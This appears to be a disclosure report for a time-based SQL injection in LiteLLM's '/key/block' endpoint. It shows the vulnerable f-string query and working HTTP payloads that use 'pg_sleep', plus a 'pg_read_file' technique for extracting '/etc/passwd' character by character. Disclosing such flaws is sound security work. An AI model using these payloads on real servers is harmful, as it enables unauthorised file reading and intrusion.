 # Description
There is sql injection in this endpoint `/key/block`.
This code exhibits a vulnerability. If `token` variable contain malicious data, it can lead to a SQL Injection, which could further enable a Local File Read.
```
sql_query = f"""
SELECT 
v.*,
t.spend AS team_spend, 
t.max_budget AS team_max_budget, 
t.tpm_limit AS team_tpm_limit,
t.rpm_limit AS team_rpm_limit,
t.models AS team_models,
t.metadata AS team_metadata,
t.blocked AS team_blocked,
t.team_alias AS team_alias,
t.metadata AS team_metadata,
t.members_with_roles AS team_members_with_roles,
tm.spend AS team_member_spend,
m.aliases as team_model_aliases
FROM "LiteLLM_VerificationToken" AS v
LEFT JOIN "LiteLLM_TeamTable" AS t ON v.team_id = t.team_id
LEFT JOIN "LiteLLM_TeamMembership" AS tm ON v.team_id = tm.team_id AND tm.user_id = v.user_id
LEFT JOIN "LiteLLM_ModelTable" m ON t.model_id = m.id
WHERE v.token = '{token}'
"""
```

 # Proof of Concept
1. Login into admin panel with username `admin` and password `sk-1234`.
2. Send the following POC to the `/key/block`. You can see that it sleeps for 5 seconds. This demonstrates the existence of a time-based SQL injection here.
```
POST /key/block HTTP/1.1
Host: 127.0.0.1:4000
Content-Length: 115
Authorization: Bearer sk--OfzCyUwBZt3rpcddaguWw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "key": "1'||pg_sleep(5); -- -"
}
```
3. Modify the POC, using the `pg_read_file()` function and time delay to read the contents of the `/etc/passwd` file. The response will only be delayed when the character matches.
```
POST /key/block HTTP/1.1
Host: 127.0.0.1:4000
Content-Length: 115
Authorization: Bearer sk--OfzCyUwBZt3rpcddaguWw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "key": "1'|| CASE WHEN pg_read_file('/etc/passwd', 0, 1) = 'r' THEN pg_sleep(10) ELSE pg_sleep(0) END; -- -"
}                
```
Send the request packet to Burp Intruder, modify the offset of the `pg_read_file()` function, then iterate through all characters for matching. Identify the character that causes a delayed response. The following image proves that the first two characters of `/etc/passwd` are 'r' and 'o'. By using this method, you can obtain the entire content of the file.

![551729649470_ pic](https://github.com/user-attachments/assets/98c0bb9f-03a8-43ec-b980-87d114e87362)
![541729649429_ pic](https://github.com/user-attachments/assets/e2f8d555-a4e9-4a0a-b655-01d8fd6d8f10)





